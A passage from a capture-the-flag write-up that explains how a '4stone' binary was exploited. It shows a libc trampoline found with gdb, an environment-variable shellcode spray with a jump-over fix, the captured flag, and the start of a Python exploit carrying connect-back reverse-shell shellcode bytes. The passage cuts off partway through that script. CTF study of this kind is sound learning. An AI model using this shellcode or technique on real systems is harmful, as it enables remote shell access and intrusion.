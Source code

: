 Rather than jumping blindly into the stack, if I could find a trampoline that added at least 0x100 to ESP before returning, I could return directly to an environment variable. I briefly looked in the 4stone binary itself for such a trampoline to no avail...but since libc was no longer randomized, I knew I'd be able to find a suitable trampoline there.

In the epilogue of the posix_fallocate64_l64(), I found a perfect trampoline:

    (gdb) x/8i 0x40156EBD
       0x40156ebd <__posix_fallocate64_l64+157>:    add    esp,0x10c
       0x40156ec3 <__posix_fallocate64_l64+163>:    ret

Alright, so now I just need to write the exploit. I grabbed some shellcode from shellstorm (connect back to port 11111 - I kept it at localhost because we had the guest shell). I made dozens of environment variables with my shellcode and threw my exploit (locally).

....and it crashed...

Looking closer, it died trying to execute the string "LOL=" as code. I quickly changed all my environment variables to start with \xeb\x02, which is the opcode for JMP $+4, which jumped over the remainder of the environment variable key and equals sign to my shellcode. Alright! It worked locally! Now to try it on their servers!

...and it crashed...

After doing some debugging, it turns out their version of 13.10 was slightly different than mine. After updating the pointers to the TLS block and the trampoline, the exploit worked and I got the flag.

Flag: gARBAG3_hOL3_R4bB1T_R5BBIT

My exploit code follows (this uses the pointer values for my EC2 instance's libc and tls block):

    #!/usr/bin/env python
    
    import os
    import sys
    import subprocess
    import collections
    
    sc = "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a" +\
    "\x02\x89\xe1\xcd\x80\x59\x93\xb0\x3f\xcd" +\
    "\x80\x49\x79\xf9\xb0\x66\x68\x7f\x01\x01" +\
    "\x01\x66\x68\x2b\x67\x66\x6a\x02\x89\xe1" +\
    "\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b" +\
    "\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" +\
    "\x6e\x89\xe3\x31\xc9\xcd\x80"
    
    e = collections.OrderedDict()
    
    for i in xrange(ord('A'),ord('z')):
            e["\xeb\x02" + chr(i)] = sc
    
    # ncurses really wants TERM and a couple of the others, so copy them..
    for k, v in enumerate(os.environ):
            e[v] = os.environ[v]
    